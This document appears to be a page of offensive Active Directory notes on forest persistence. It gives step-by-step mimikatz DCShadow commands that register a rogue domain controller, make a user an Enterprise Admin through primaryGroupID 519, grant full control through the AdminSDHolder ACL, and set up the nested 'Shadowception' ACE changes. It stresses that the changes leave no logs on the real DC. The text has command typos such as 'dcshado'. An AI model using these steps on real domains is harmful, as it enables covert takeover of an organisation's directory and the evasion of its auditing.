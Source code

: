 ```yaml
---
title: Forest Persistence
category: Active Directory
order: 7
---
```


We are going to discuss some ways to do a persistence in a forest root.

# DCShadow

DCShadow temporaly registers a new DC in the target domain and uses it to push attributes like `SID History`, `SPNs` and more over on the specified object without leaving the cange logs for modified object.

The new domain controller is registered by modifying the configuration container, SPNs of an exisiting computer object and couple of RPC services.

Due to the attributes are changed from a domain dontroller, there are no directory change logs on the actual DC for the target object.

By default, domain administrative privileges are required to use DCShadow.

To execute this persistence we need to use two isntances of mimikatz. The first one starts RPC servers with SYSTEM privileges and specify attributes to be modified:

```powershell
!+
!processtoken
lsadump::dcshadow /object:root1user /attribute:Description /value="Hello from DCShadow"
```
And the second one with enough privileges, such as DA, will push the values:

```powershell
lsadump::dcshadow /push
```

> **Note**: DCShadow can be used with minimal permissions by modifyng ACLs, `Nishang` has a script to set this permissions to a user.
>
> `Set-DCShadowPermissions -FakeDC machine-user01 -SAMAccountName root1user -Username user01 -Verbose`

## Set Primary Group ID to Enterprise Admin

Now that we have been discovered how to overwrite attributes of users, we can change the group id of a user to the id of the enterprise administrators or domain admins.

```powershell
lsadump::dcshadow /object:user01 /attribute:primaryGroupID /value:519
```
> **Note**: This makes noise, because every one who looks `net group "Enterpise Admins" /domain` will see that the user user01 is a member.

## Modify ntSecurityDescriptor for AdminSDHolder

We can modify the `ntSecurityDescriptor` for AdminSDHolder to add full control for a user.

```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminADHolder,CN=System,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
We just need to append a full control ACE from above DA with our users SID.

```powershell
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>

Modified ACL:

ORIGINAL ACL + FULL CONTROL FOR OUR USER
0:DAG:DAD:PAI(A;;LCRPLORC;;;AU)  .....................  (A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;S-1-5-21-560323961-2315414123-15432421423-1323)
```

> **Note**: We just need to add our SID to the SY/BA/DA ACE result. To see the SID we can use:
>
> `Get-NetUser user01`

## Shadowception

We can even run DCShadow from DCShadow. To do that task we will add 4 ACL and add the following content:

> **Note** We can use `/stack` to stack multiple ACL.

### Domain Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;<USER SID>)
(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;<USER SID>)
(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshado /stack /object:DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Attacker Computer Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=machine01,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;;WP;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshado /stack /object:machine01$ /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Target User Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=user01,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;;WP;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshado /stack /object:targetuser01 /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Sites Configuration Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Sites,CN=Configuration,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;CI;CCDC;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshado /stack /object:CN=Sites,CN=Configuration,DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

Finally we just start the server:

```
lsadump::dcshadow
```

And on the other session with DA privileges:

```
lsadump::dcshadow /push
```